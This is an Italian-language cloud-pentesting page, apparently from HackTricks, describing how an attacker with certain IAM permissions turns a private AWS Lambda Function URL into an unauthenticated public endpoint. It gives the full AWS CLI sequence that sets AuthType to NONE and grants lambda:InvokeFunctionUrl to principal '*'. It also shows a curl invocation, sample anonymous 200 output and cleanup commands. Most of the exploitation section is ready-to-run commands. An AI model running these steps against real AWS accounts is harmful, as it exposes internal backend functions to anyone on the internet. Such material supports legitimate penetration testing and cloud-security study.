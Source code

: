 # AWS - Esposizione pubblica di Lambda Function URL (AuthType NONE + Public Invoke Policy)

Trasforma un Lambda Function URL privato in un endpoint pubblico non autenticato impostando il Function URL AuthType su NONE e allegando una resource-based policy che concede lambda:InvokeFunctionUrl a chiunque. Questo permette l'invocazione anonima di funzioni interne e può esporre operazioni backend sensibili.

## Sfruttamento

- Prerequisiti: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Regione: us-east-1

### Passaggi
1) Assicurati che la function abbia un Function URL (di default AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Imposta l'URL come pubblico (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Aggiungi una statement nella resource-based policy per permettere principals non autenticati:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Recupera l'URL e invoca senza credenziali:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Impatto
- La Lambda function diventa accessibile in modo anonimo via internet.

### Esempio di output (200 non autenticato)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### Pulizia
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

